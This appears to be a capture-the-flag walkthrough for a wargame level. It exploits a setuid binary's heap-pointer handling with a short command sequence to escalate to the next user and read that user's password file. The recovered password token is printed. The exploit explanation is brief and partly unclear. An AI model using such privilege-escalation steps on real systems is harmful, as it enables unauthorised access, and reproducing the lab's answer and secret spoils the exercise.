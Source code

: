 # Level 8 Walkthrough

1. **Connect to the target machine**

	```bash
	ssh level8@<vm-ip> -p 4242
	```

2. **Check the files**

	```bash
	ls -l
	```

	Output:

	```
	-rwsr-s---+ 1 level9 users 5138 Mar  6  2016 level8
	```

3. **Test the binary**

	```bash
	./level8
	```

	Output:

	```
	(nil), (nil)
	```

	The program prints **two pointer values** and waits for input.

4. **Copy the binary locally for analysis**

	```bash
	scp -P 4242 level8@<vm-ip>:/home/user/level8/level8 .
	```

5. **Behavior analysis**

	Experimenting with commands:

	```bash
	auth AAAA
	```

	Output:

	```
	0x804a008, (nil)
	```

	Here:

	* The first pointer is set to a heap-allocated structure (after `auth`).
	* The second remains `NULL`.

	```bash
	service
	```

	Output:

	```
	0x804a008, 0x804a018
	```

	This sets the second pointer.

	```bash
	login
	```

	Prompts for password, but still uses both pointers.

6. **Exploit logic**

	* The program has two global pointers: `auth` and `service`.
	* When `login` is called, it checks:

		```c
		if (auth->password_length <= 0)
			return;
		```
	* Calling the `service` function once allows this overwrite.
	* If `service` is called again, it will use a **new memory address**.

7. **Exploit steps**

	```bash
	./level8
	auth AAAA
	service
	service
	login
	```

8. **Get Level 9 password**

	```bash
	cat /home/user/level9/.pass
	```

	Output:

	```
	c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
	```

